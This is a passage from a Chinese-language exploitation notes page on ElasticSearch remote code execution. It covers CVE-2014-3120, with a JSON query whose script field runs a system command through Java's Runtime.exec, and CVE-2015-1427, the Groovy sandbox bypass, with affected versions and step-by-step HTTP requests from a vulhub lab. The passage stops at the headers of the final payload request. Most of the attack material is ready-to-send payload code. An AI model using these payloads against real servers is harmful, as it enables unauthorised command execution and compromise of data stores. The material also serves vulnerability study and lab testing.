     {
        "size": 1,
        "query": {
        "filtered": {
            "query": {
            "match_all": {
            }
            }
        }
        },
        "script_fields": {
            "command": {
                "script": "import java.io.*;new java.util.Scanner(Runtime.getRuntime().exec(\"id\").getInputStream()).useDelimiter(\"\\\\A\").next();"
            }
        }
    }
    ```

**CVE-2015-1427 Groovy 沙盒绕过 && 代码执行漏洞**
- 简介

    CVE-2014-3120 后，ElasticSearch 默认的动态脚本语言换成了 Groovy，并增加了沙盒，但默认仍然支持直接执行动态语言。

- 影响版本
    - ElasticSearch < 1 .3.7
    - ElasticSearch 1.4.0 ~ 1.4.2

- 文章
    - [Remote Code Execution in Elasticsearch - CVE-2015-1427](https://jordan-wright.com/blog/2015/03/08/elasticsearch-rce-vulnerability-cve-2015-1427/)

- POC | Payload | exp

    来源: [ElasticSearch Groovy 沙盒绕过 && 代码执行漏洞 (CVE-2015-1427) 测试环境](https://vulhub.org/#/environments/elasticsearch/CVE-2015-1427/)

    由于查询时至少要求 es 中有一条数据,所以发送如下数据包,增加一个数据:
    ```
    POST /website/blog/ HTTP/1.1
    Host: your-ip:9200
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 25

    {
    "name": "test"
    }
    ```

    然后发送包含 payload 的数据包,执行任意命令:
    ```
    POST /_search?pretty HTTP/1.1
    Host: your-ip:9200
    Accept: */*
    Accept-Language: en
    User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
    Connection: close
    Content-Type: application/text
    Content-Length: 156
